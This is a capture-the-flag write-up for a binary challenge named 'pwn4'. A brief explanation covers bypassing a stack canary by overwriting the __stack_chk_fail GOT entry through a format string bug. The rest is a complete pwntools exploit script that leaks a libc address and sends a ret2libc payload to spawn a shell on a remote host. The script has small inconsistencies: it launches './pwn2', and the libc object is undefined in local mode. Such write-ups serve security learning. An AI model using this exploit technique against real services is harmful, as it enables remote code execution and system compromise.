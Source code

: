  - [`pwn4`](files/pwn4-pwn4)

**Solution**

Almost same as `pwn3` except it has a canary protection and a format string vulnerability. Use that format string to rewrite GOT table entry of `__stack_chk_fail` to any address pointing to a `retn` instruction so it will not abort but will return immediately when being called.
```python
from pwn import *
import struct
g_local=1
context.log_level='debug'
if g_local:
	sh = process('./pwn2')
	gdb.attach(sh)
else:
	e = ELF("libc-2.19.so")
	sh = remote("104.154.106.182", 3456)

def hn(pos, val):
	assert val < 0x10000
	if val == 0:
		return "%" + str(pos) + "$hn"
	else:
		return "%" + str(val) + "c%" + str(pos) + "$hn"

def cont_shoot(poses, vals):
	assert len(poses) == len(vals)
	size = len(poses)
	ret = ""
	i = 0
	cur_size = 0
	next_overflow = 0
	while i < size:
		assert next_overflow >= cur_size
		num = next_overflow - cur_size + vals[i]
		if num < 0x10000:
			ret += hn(poses[i], num)
			next_overflow += 0x10000
		else:
			num = vals[i] - (cur_size - (next_overflow - 0x10000))
			assert num >= 0
			ret += hn(poses[i], num)
		cur_size += num
		i += 1
	return ret

sh.recvuntil(" the new?\n")
sh.sendline((cont_shoot([15], [0x85E4]).ljust(0x20, '\x00') + p32(0x8049904)).ljust(0x90, 'A') \
 + p32(0x80483F0) + p32(0x080483a1) + p32(0x8049908) + p32(0x8048551))
leak = sh.recvuntil('\n')
libc_addr = u32(leak[:4]) - e.symbols["puts"] #0x5fca0
print hex(libc_addr)

sh.recvuntil(" the new?\n")
sh.sendline('A' * 0x90 + p32(libc_addr + e.symbols["system"]) + p32(0) + \
	p32(libc_addr + next(e.search("/bin/sh\x00"))))

sh.interactive()
```
